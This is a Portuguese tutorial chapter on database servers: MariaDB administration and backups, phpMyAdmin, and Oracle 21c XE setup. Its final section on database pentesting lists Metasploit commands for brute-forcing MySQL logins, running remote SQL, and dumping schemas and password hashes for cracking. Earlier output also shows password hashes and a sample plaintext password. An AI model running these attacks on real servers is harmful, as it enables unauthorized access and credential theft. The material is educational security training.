

# Servidor de Banco de Dados


Neste capítulo iremos aprofundar nossos conhecimentos em bancos de dados, criando e gerenciando informações utilizando o MariaDB, um SGBD de código aberto e uso gratuito.

## Introdução ao Banco de Dados

Um SGBD é um sistema de gestão de base de dados, que disponibiliza uma interface para que clientes (usuários) possam interagir com o banco de dados de várias maneiras, como inserir dados, pesquisar, excluir, entre outras. Neste capítulo, vamos trabalhar com o SGBD MariaDB.

MariaDB é um SGDB que surgiu como fork do MySQL, criado pelo próprio fundador do projeto após sua aquisição pela Oracle. A intenção principal do projeto é manter uma alta fidelidade com o MySQL. MariaDB está disponível sob os termos da licença GPL v2. MariaDB é mantido atualizado com a última versão do MySQL e irá funcionar exatamente como MySQL. Todos os comandos, interfaces, bibliotecas e APIs que existem no MySQL também existem no MariaDB. Não há necessidade de conversão de dados para exibir MariaDB.

### SQL

A Linguagem SQL possui classificações para as instruções executadas, feitas de acordo com a função de cada instrução/comando:

* **DCL** - Linguagem de Controle de Dados: Comandos SQL responsáveis pela administração/autorização de dados e licença de usuários;
* **DDL** - Linguagem de Definição de Dados: Conjunto de comandos responsáveis pela criação de bancos, esquemas, tabelas e constraints;
* **DML** - Linguagem de Manipulação de Dados: Comandos responsáveis por operações de manipulação como inserir, consultar, atualizar ou excluir dados;
* **DQL** - Linguagem de Consulta de Dados: O único comando que pode ser definido como DQL é o SELECT usado para realização de consultas.

O servidor MySql/MariaDB armazena as informações dos usuários em quatro tabelas localizadas no banco de dados padrão chamado Mysql.

São estas:

* Tabela user: Armazena as informações de todos os usuários do banco e seus privilégios a nível global;
* Tabela db: Armazena os privilégios dos usuários específicos de um banco de dados;
* Tabela tables_priv e columns_priv: Armazenam os privilégios associados a tabelas e colunas, respectivamente.

### Primeiros passos no Banco de Dados

```shell
root@srv01-ubuntu:~# mysql -u root p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1412
Server version: 10.3.34-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

```shell
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| 4linux             |
| information_schema |
| mysql              |
| performance_schema |
| phpmyadmin         |
| wordpress_bd       |
+--------------------+
6 rows in set (0.000 sec)

MariaDB [(none)]> 
```

```shell
MariaDB [(none)]> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mysql]> 
```

```shell
Database changed
MariaDB [mysql]> show tables;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
| column_stats              |
| columns_priv              |
| db                        |
| event                     |
| func                      |
| general_log               |
| gtid_slave_pos            |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| host                      |
| index_stats               |
| innodb_index_stats        |
| innodb_table_stats        |
| plugin                    |
| proc                      |
| procs_priv                |
| proxies_priv              |
| roles_mapping             |
| servers                   |
| slow_log                  |
| table_stats               |
| tables_priv               |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
| transaction_registry      |
| user                      |
+---------------------------+
31 rows in set (0.000 sec)

MariaDB [mysql]> 
```

```shell
MariaDB [mysql]> select * from user;
+-----------+----------------+-------------------------------------------+-------------+-------------+-------------+-------------+-------------+-----------+-------------+---------------+--------------+-----------+------------+-----------------+------------+------------+--------------+------------+-----------------------+------------------+--------------+-----------------+------------------+------------------+----------------+---------------------+--------------------+------------------+------------+--------------+------------------------+---------------------+----------+------------+-------------+--------------+---------------+-------------+-----------------+----------------------+-------------+-----------------------+------------------+---------+--------------+--------------------+
| Host      | User           | Password                                  | Select_priv | Insert_priv | Update_priv | Delete_priv | Create_priv | Drop_priv | Reload_priv | Shutdown_priv | Process_priv | File_priv | Grant_priv | References_priv | Index_priv | Alter_priv | Show_db_priv | Super_priv | Create_tmp_table_priv | Lock_tables_priv | Execute_priv | Repl_slave_priv | Repl_client_priv | Create_view_priv | Show_view_priv | Create_routine_priv | Alter_routine_priv | Create_user_priv | Event_priv | Trigger_priv | Create_tablespace_priv | Delete_history_priv | ssl_type | ssl_cipher | x509_issuer | x509_subject | max_questions | max_updates | max_connections | max_user_connections | plugin      | authentication_string | password_expired | is_role | default_role | max_statement_time |
+-----------+----------------+-------------------------------------------+-------------+-------------+-------------+-------------+-------------+-----------+-------------+---------------+--------------+-----------+------------+-----------------+------------+------------+--------------+------------+-----------------------+------------------+--------------+-----------------+------------------+------------------+----------------+---------------------+--------------------+------------------+------------+--------------+------------------------+---------------------+----------+------------+-------------+--------------+---------------+-------------+-----------------+----------------------+-------------+-----------------------+------------------+---------+--------------+--------------------+
| localhost | root           | *3C26A44D501AA55F635147A721BF1121626A028D | Y           | Y           | Y           | Y           | Y           | Y         | Y           | Y             | Y            | Y         | Y          | Y               | Y          | Y          | Y            | Y          | Y                     | Y                | Y            | Y               | Y                | Y                | Y              | Y                   | Y                  | Y                | Y          | Y            | Y                      | Y                   |          |            |             |              |             0 |           0 |               0 |                    0 | unix_socket |                       | N                | N       |              |           0.000000 |
| localhost | wordpress      | *3C26A44D501AA55F635147A721BF1121626A028D | N           | N           | N           | N           | N           | N         | N           | N             | N            | N         | N          | N               | N          | N          | N            | N          | N                     | N                | N            | N               | N                | N                | N              | N                   | N                  | N                | N          | N            | N                      | N                   |          |            |             |              |             0 |           0 |               0 |                    0 |             |                       | N                | N       |              |           0.000000 |
| localhost | wordpress_user | *3C26A44D501AA55F635147A721BF1121626A028D | N           | N           | N           | N           | N           | N         | N           | N             | N            | N         | N          | N               | N          | N          | N            | N          | N                     | N                | N            | N               | N                | N                | N              | N                   | N                  | N                | N          | N            | N                      | N                   |          |            |             |              |             0 |           0 |               0 |                    0 |             |                       | N                | N       |              |           0.000000 |
| localhost | phpmyadmin     | *6FC3306B54ED65A106A7CB389FC6911CEE243F2D | N           | N           | N           | N           | N           | N         | N           | N             | N            | N         | N          | N               | N          | N          | N            | N          | N                     | N                | N            | N               | N                | N                | N              | N                   | N                  | N                | N          | N            | N                      | N                   |          |            |             |              |             0 |           0 |               0 |                    0 |             |                       | N                | N       |              |           0.000000 |
| localhost | eaiqualteupapo | *6FC3306B54ED65A106A7CB389FC6911CEE243F2D | Y           | Y           | Y           | Y           | Y           | Y         | Y           | Y             | Y            | Y         | Y          | Y               | Y          | Y          | Y            | Y          | Y                     | Y                | Y            | Y               | Y                | Y                | Y              | Y                   | Y                  | Y                | Y          | Y            | Y                      | Y                   |          |            |             |              |             0 |           0 |               0 |                    0 |             |                       | N                | N       |              |           0.000000 |
+-----------+----------------+-------------------------------------------+-------------+-------------+-------------+-------------+-------------+-----------+-------------+---------------+--------------+-----------+------------+-----------------+------------+------------+--------------+------------+-----------------------+------------------+--------------+-----------------+------------------+------------------+----------------+---------------------+--------------------+------------------+------------+--------------+------------------------+---------------------+----------+------------+-------------+--------------+---------------+-------------+-----------------+----------------------+-------------+-----------------------+------------------+---------+--------------+--------------------+
5 rows in set (0.000 sec)

MariaDB [mysql]> 
```

```shell
MariaDB [mysql]> select * from db;
+-----------+--------------+----------------+-------------+-------------+-------------+-------------+-------------+-----------+------------+-----------------+------------+------------+-----------------------+------------------+------------------+----------------+---------------------+--------------------+--------------+------------+--------------+---------------------+
| Host      | Db           | User           | Select_priv | Insert_priv | Update_priv | Delete_priv | Create_priv | Drop_priv | Grant_priv | References_priv | Index_priv | Alter_priv | Create_tmp_table_priv | Lock_tables_priv | Create_view_priv | Show_view_priv | Create_routine_priv | Alter_routine_priv | Execute_priv | Event_priv | Trigger_priv | Delete_history_priv |
+-----------+--------------+----------------+-------------+-------------+-------------+-------------+-------------+-----------+------------+-----------------+------------+------------+-----------------------+------------------+------------------+----------------+---------------------+--------------------+--------------+------------+--------------+---------------------+
| localhost | wordpress_bd | wordpress_user | Y           | Y           | Y           | Y           | Y           | Y         | Y          | Y               | Y          | Y          | Y                     | Y                | Y                | Y              | Y                   | Y                  | Y            | Y          | Y            | Y                   |
| localhost | phpmyadmin   | phpmyadmin     | Y           | Y           | Y           | Y           | Y           | Y         | N          | Y               | Y          | Y          | Y                     | Y                | Y                | Y              | Y                   | Y                  | Y            | Y          | Y            | Y                   |
+-----------+--------------+----------------+-------------+-------------+-------------+-------------+-------------+-----------+------------+-----------------+------------+------------+-----------------------+------------------+------------------+----------------+---------------------+--------------------+--------------+------------+--------------+---------------------+
2 rows in set (0.000 sec)

MariaDB [mysql]> 
```

```shell
MariaDB [mysql]> select User,DB,Select_Priv,Insert_priv from db;
+----------------+--------------+-------------+-------------+
| User           | DB           | Select_Priv | Insert_priv |
+----------------+--------------+-------------+-------------+
| wordpress_user | wordpress_bd | Y           | Y           |
| phpmyadmin     | phpmyadmin   | Y           | Y           |
+----------------+--------------+-------------+-------------+
2 rows in set (0.000 sec)

MariaDB [mysql]> 
```

## Exploração do Banco de Dados 

Os comandos a seguir demonstram a administração básica de um banco de dados, bem como atualizar, inserir visualizar e remover dados dentro do banco:


```shell
root@srv01-ubuntu:~# mysql -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1413
Server version: 10.3.34-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

```shell
MariaDB [(none)]> CREATE DATABASE 4linux;
```

```shell
MariaDB [(none)]> USE 4linux;
```

```shell
MariaDB [(none)]> CREATE TABLE fornecedores(
      codigo int(4) AUTO_INCREMENT,
      nome varchar(30) NOT_NULL,
      email varchar(50),
      PRIMARY KEY (codigo)
);
```
```shell
MariaDB [4linux]> show tables;
+------------------+
| Tables_in_4linux |
+------------------+
| fornecedores     |
+------------------+
2 rows in set (0.000 sec)
```

```shell
MariaDB [4linux]> INSERT INTO fornecedores(codigo, nome, email) VALUES (null, "didi", "didi@joatham4linux.ml");
MariaDB [4linux]> INSERT INTO fornecedores(codigo, nome, email) VALUES (null, "dede", "xuxa@joatham4linux.ml");
MariaDB [4linux]> INSERT INTO fornecedores(codigo, nome, email) VALUES (null, "mussum", "mussum@joatham4linux.ml");
MariaDB [4linux]> INSERT INTO fornecedores(codigo, nome, email) VALUES (null, "zacarias", "zacarias@joatham4linux.ml");
```

```shell
MariaDB [4linux]> select * from fornecedores;
+--------+------------------+-----------------------------------+
| codigo | nome             | email                             |
+--------+------------------+-----------------------------------+
|      1 | didi             | didi@joatham4linux.ml             |
|      2 | dede             | xuxa@joatham4linux.ml             |
|      5 | mussum           | mussum@joatham4linux.ml           |
|      6 | zacarias         | zacarias@joatham4linux.ml         |
+--------+------------------+-----------------------------------+
4 rows in set (0.000 sec)

MariaDB [4linux]> 
```
```shell
MariaDB [4linux]> select email FROM fornecedores;
+-----------------------------------+
| email                             |
+-----------------------------------+
| didi@joatham4linux.ml             |
| xuxa@joatham4linux.ml             |
| mussum@joatham4linux.ml           |
| zacarias@joatham4linux.ml         |
+-----------------------------------+
4 rows in set (0.000 sec)

MariaDB [4linux]> 
```

```shell
MariaDB [4linux]> SELECT email FROM fornecedores ORDER BY nome asc;
+-----------------------------------+
| email                             |
+-----------------------------------+
| xuxa@joatham4linux.ml             |
| didi@joatham4linux.ml             |
| mussum@joatham4linux.ml           |
| zacarias@joatham4linux.ml         |
+-----------------------------------+
4 rows in set (0.000 sec)

MariaDB [4linux]> 
```

```shell
MariaDB [4linux]> UPDATE fornecedores SET email="dede@joatham4linux.ml" WHERE codigo=2
```

```shell
MariaDB [4linux]> SELECT * FROM fornecedores ORDER BY nome desc;
+--------+------------------+-----------------------------------+
| codigo | nome             | email                             |
+--------+------------------+-----------------------------------+
|      6 | zacarias         | zacarias@joatham4linux.ml         |
|      5 | mussum           | mussum@joatham4linux.ml           |
|      1 | didi             | didi@joatham4linux.ml             |
|      2 | dede             | dede@joatham4linux.ml             |
+--------+------------------+-----------------------------------+
4 rows in set (0.000 sec)

MariaDB [4linux]> 
```

```shell
MariaDB [4linux]> DELETE FROM fornecedores WHERE codigo=4;
```

## Trabalhando com backups

Os comandos a seguir demonstram a administração básica de um banco de dados, bem como atualizar, inserir visualizar e remover dados dentro do banco:

```shell
root@srv01-ubuntu:~# mysqldump -h localhost -u root -p 4linux > backup.sql
```

```shell
MariaDB [(none)]> CREATE DATABASE 4linux;
```

```shell
root@srv01-ubuntu:~# mysql -h localhost -u root -p 4linux < backup.sql
```

### Usando PhpMyAdmin

A seguir, uma alternativa a administração de Banco de Dados, instalaremos o PhpMyAdmin. Acompanhe a sequência de comandos abaixo:

```shell
root@srv01-ubuntu:~# aptitude install phpmyadmin php-mbstring php-zip php-gd php-json php-curl
      [x] apache2
      YES
      senha jota@123
```

```shell
root@srv01-ubuntu:~# cd /etc/apache2/conf-enable
root@srv01-ubuntu:~# phpenmod mbstring
```

```shell
root@srv01-ubuntu:~# systemctl restart apache2
```

Acesse o PhpMyAdmin: <ns2.joatham4linux.ml/phpmyadmin>




```shell
root@srv01-ubuntu:~# mysql -u root -p 
MariaDB [(none)]> CREATE USER 'qualteupapo'@'localhost' IDENTIFIED BY 'jota@123'
MariaDB [(none)]> GRANT ALL PRIVILEGES ON *.* TO 'qualteupapo'@'localhost' WHITH GRANT OPTION;
MariaDB [(none)]> FLUSH PRIVILEGES;
```


## Automatizando com phpMyAdmin

Acompanhe na videoaula como trabalhar e ajustar para deixar mais seguro a aplicação **PhpMyAdmin**.


## Instalar o Oracle Database 21c XE Express Edition no Oracle Linux

O Banco de dados Oracle ou Oracle Database é um dos principais sistemas de gerenciamento de bancos de dados (SGBD) do mercado.

O Oracle Database permite o armazenamento e administração de dados de aplicações corporativas oferecendo desempenho, segurança, escalabilidade e confiabilidade.

Por isso, o Oracle Database é utilizado pelas maiores empresas do mercado em diversos segmentos.

### Download Oracle Database 21c XE Linux

Para efetuar o download do pacote RPM de Instalação Oracle Database, basta seguir estes passos:

Acesse a página de download de software para instalação baseada em Oracle Database RPM da Oracle Technology Network:
https://www.oracle.com/technetwork/database/database-technologies/express-edition/downloads/index.html
Faça download de um arquivo `rpm` apropriado necessário para executar uma instalação baseada em RPM em um diretório de sua escolha:

Como descobrir qual versão do Linux você está executando?

Digite no terminal o comando:

```shell
root@srv02-oracle:~# hostnamectl 
```

Para Oracle Linux 8: oracle-database-xe-21c-1.0-1.ol8.x86_64.rpm

Instale o software de banco de dados usando um dos seguintes comandos:

Para Oracle Linux 8, use o comando `dnf localinstall`:

```shell
root@srv02-oracle:~# dnf -y localinstall oracle-database-xe*
```

O Pacote RPM de pré-instalação de banco de dados cria automaticamente o proprietário e os grupos de instalação do Oracle e define outras definições de configuração do kernel conforme necessário para instalação do Oracle.

Se você planeja usar a separação de função de trabalho, crie um conjunto estendido de usuários e grupos de banco de dados, dependendo de seus requisitos.

Após a finalização de todo este processo, a instalação do software Oracle Database está concluída.

Vamos agora a criação e configuração do **Oracle Database 21c** Linux

### Criando e configurando um banco de dados Oracle 21c Linux

O script de configuração cria um banco de dados de **contêiner CDB (XE)** com um banco de dados conectável/plugável (**XEPDB1**) e configura o listener na porta padrão (**1521**) e o **Enterprise Manager Express** na porta **5500**.

Você pode modificar os parâmetros de configuração editando o arquivo `/etc/sysconfig/oracle-xe-21c.conf`.

Vamos as etapas de criação e configuração do **Oracle Database 21c XE**

Para criar o banco de dados Oracle com as configurações padrão, execute as seguintes etapas:

Com o usuário root, execute o script de configuração do serviço:

```shell
root@srv02-oracle:~# /etc/init.d/oracle-xe-21c configure
```
No prompt, especifique uma senha para as contas administrativas de usuário `SYS`, `SYSTEM` e `PDBADMIN`.

A Oracle recomenda que a senha inserida tenha pelo menos 8 caracteres de comprimento, contenha pelo menos 1 caractere maiúsculo, 1 caractere minúsculo e 1 dígito [0-9].

Caso Durante a configuração do Oracle XE 21c, seja apresentado do erro **[ DBT-06103 ] The port (5.500) is already in use**, será necessário editar o arquivo `/etc/hosts` adicionando o ip do host juntamente com o nome do mesmo.

### Definir Ambiente do Oracle 21 XE : Acesso Banco de Dados

Depois de instalar, configurar e aprender a iniciar e parar o serviço do Oracle Database XE, vamos verificar e definir o ambiente antes de usar o Oracle Database XE.

Para isso, vamos mudar para o usuário root e dele vamos acessar o usuário oracle com o comando:

```shell
root@srv02-oracle:~# su
root@srv02-oracle:~# su - oracle
```

Depois, a partir do usuário `oracle` vamos configurar o Ambiente Oracle com o comando `oraenv`, digitando:

```shell
oracle@srv02-oracle:/bin$ . oraenv
```
Ao perguntar sobre o `ORACLE_SID`, vamos informar: `XE` em **letras maiúsculas**.

Aqui um detalhe importante, quem pode acessar o Oracle é o usuário oracle e quem está no grupo de usuários do Oracle

Por isso, se tentarmos executar o oraenv no usuário do sistema vai dar erro, o mesmo ocorre no usuário root.

Agora no usuário Oracle vamos acessar o sqlplus.

### Como se conectar ao banco de dados CDB no Oracle Database XE Linux

Com a instalação do banco de dados finalizada podemos acessar o Oracle Database.

#### Conectando-se localmente usando a autenticação do SO

Quando você instala o **Oracle Database XE**, o usuário **oracle** recebe privilégios `SYSDBA`. Você pode usar os seguintes comandos para se conectar ao banco de dados.

```shell
oracle@srv02-oracle:/bin$ sqlplus / as sysdba
```

Esses comandos conectam você ao contêiner raiz ou o **Banco CDB CDB$ROOT** que é o banco de dados multilocatário com o usuário do banco de dados `SYS`.

Vamos executar algumas `querys` / consultas no `sqlplus`.

- Mostrar todas as tabelas às quais você tem acesso:

```shell
SELECT table_name, owner, tablespace_name FROM all_tables;
```

- Mostrar tabelas que você tem acesso:

```shell
SELECT table_name FROM user_tables;
```

- Mostrar views que você tem acesso:

```shell
SELECT view_name FROM all_views;
```

Para sair do SQLPlus digitamos:
```shell
exit.
```

### Verificando Net Services Listener e Default Services (Serviços Padrão e Listener)

O Listener e os serviços padrão permitem que você se conecte ao banco de dados por TCP/IP da mesma máquina ou de outras máquinas na rede.

A configuração / Status do Listener pode ser visualizada usando os seguintes comandos executados no prompt de comando do terminal:

```shell
root@srv02-oracle:~# lsnrctl status
```
A saída do comando lsnrctl mostra o status de vários parâmetros importantes:

- a porta em que o Listener escuta;
- a lista de serviços registrados com o Listener;
- a porta que EM Express escuta;
- o nome do arquivo de configuração usado pelo Listener;
- o nome do arquivo de log.

Você especifica um serviço ao se conectar ao banco de dados por meio do Listener.

Os serviços padrões criados pelo Oracle Database XE são `XE` e `XEPDB1`.

O serviço `XE` conecta você ao contêiner raiz do banco de dados (**CDB$ROOT**) e o serviço **XEPDB1** conecta você ao banco de dados conectável padrão (**XEPDB1**) criado no momento da instalação.

Para cada novo banco de dados plugável (**PDB**) no banco de dados, haverá um novo serviço padrão criado com o mesmo nome do **PDB**.

> Se a instância do Oracle Database XE for encerrada, o comando `lsnrctl status` não mostrará nenhum serviço ao qual você possa se conectar.

### Conectar-se ao banco de dados PDB no Oracle Database XE Linux

Você pode se conectar ao banco de dados plugável padrão `XEPDB1` usando os seguintes comandos, a partir do usuário oracle:

```shell
root@srv02-oracle:~# sqlplus system@srv02-oracle:1521/XEPDB1

```

Se necessário, substitua 1521 pelo número da porta em que o listener escuta.

Você pode substituir `XEPDB1` pelo nome de outro `PDB` ao qual deseja se conectar.

### Disponibilizando o Acesso ao Enterprise Manager Express (EM) para Clientes Remotos

Após a instalação do Oracle Database XE, o **EM Express** fica disponível apenas no servidor local, não podendo ser acessado remotamente.

Para disponibilizar o EM Express para clientes remotos, inicie o `SQLPlus` e faça login como `SYSTEM` e execute este procedimento:

```shell
root@srv02-oracle:~# sqlplus system
Enter password: Senha_do_SYSTEM
SQL> EXEC DBMS_XDB.SETLISTENERLOCALACCESS(FALSE);
```

Vale lembrar que para acessar o EM Express via browser de outros computadores, eles devem estar na mesma rede. 

## Testes de invasão em bancos de dados

A injeção de SQL é uma técnica em que um usuário mal-intencionado pode injetar comandos SQL em uma instrução SQL por meio de uma página da web.

Um invasor pode ignorar a autenticação, acessar, modificar e excluir dados em um banco de dados. Em alguns casos, o SQL Injection pode até ser usado para executar comandos no sistema operacional, potencialmente permitindo que um invasor escale para ataques mais prejudiciais dentro de uma rede que fica atrás de um firewall.

Para aprender e entender completamente como proteger o serviço em uma porta, você precisa entender como torná-la vulnerável e em seguida, execute o teste de penetração. Porque se você não entender o que pode ser explorado e como, você sempre falhará em protegê-lo.

### Ataque de Força Bruta do Mysql
Pode-se também forçar a porta usando o `Metasploit`. Este módulo simplesmente consulta a instância do MySQL para um usuário/pass específico para isso, vá para o terminal no kali, digite `msfconsole` e use os seguintes comandos para iniciar o login de força bruta:

```shell
msf6 > use auxiliary/scanner/mysql/mysql_login
set rhosts IP_ALVO
set user_file /root/Desktop/user.txt
set pass_file /root/Desktop/pass.txt
exploit
```

### Executando consultas SQL sem fazer login no Mysql
Este módulo permite que instruções SQL simples sejam executadas em uma instância MySQL com as credenciais apropriadas. Para isso, digite:

```shell
msf6 > use auxiliary/admin/mysql/mysql_sql
set rhosts IP_ALVO
set username root
set password 123
set sql show databases
exploit
```

### Extrair informações do Mysql-Schemadump
Nosso próximo módulo extrai as informações do esquema de um servidor MySQL DB. Para este exploit, digite:

```shell
msf6 > use auxiliary/scanner/mysql/mysql_schemadump
set rhosts IP_ALVO
set username root
set password 123
exploit
```

### Extraindo o login do servidor Mysql
Este vai extrair os nomes de usuário e hashes de senha criptografados de um servidor MySQL e os armazena para posterior cracking; use o seguinte exploit:

```shell
msf6 > use auxiliary/scanner/mysql/mysql_hashdump
set rhosts 192.168.1.108
set username root
set password 123
exploit
```
